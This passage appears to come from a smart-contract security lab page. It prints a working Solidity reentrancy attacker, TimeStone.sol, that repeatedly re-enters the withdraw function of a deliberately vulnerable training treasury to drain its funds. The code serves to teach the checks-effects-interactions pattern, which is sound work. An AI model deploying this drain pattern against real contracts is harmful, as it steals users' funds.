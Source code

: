 
---

##  Proof of Exploit

Attacker = **TimeStone.sol**:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {DormammuTreasuryVulnerable} from "../../src/Reentrancy-CEI/DormammuTreasuryVulnerable.sol";

/// @title Doctor Strange attacker (reentrancy) & Attacker + test harness using TimeStone.
contract TimeStone {
    DormammuTreasuryVulnerable public treasury;
    address public owner;
    uint256 public rewardAmount;

    constructor(address _vuln) {
        treasury = DormammuTreasuryVulnerable(_vuln);
        owner = msg.sender;
    }

    /// @notice deposit and start the attack
    function attack() external payable {
        require(msg.sender == owner, "You're not a Doctor Strange");
        require(msg.value > 0, "send ETH to attack");
        // deposit small amount to be eligible for withdraw
        treasury.deposit{value: msg.value}();
        // set single-call baseline reward to attempt
        rewardAmount = msg.value;
        treasury.withdraw();
    }

    /// @notice fallback - reenter while the treasury still has funds
    receive() external payable {
        // while the treasury still has at least `rewardAmount`, reenter withdraw()
        // careful: this condition keeps reentering until the treasury is drained or < rewardAmount
        if (address(treasury).balance >= rewardAmount) {
            treasury.withdraw();
        }
    }

    /// @notice collect stolen funds to owner externally (for test reporting)
    function collect() external {
        require(msg.sender == owner, "You're not a Doctor Strange");
        payable(owner).transfer(address(this).balance);
    }
}
```
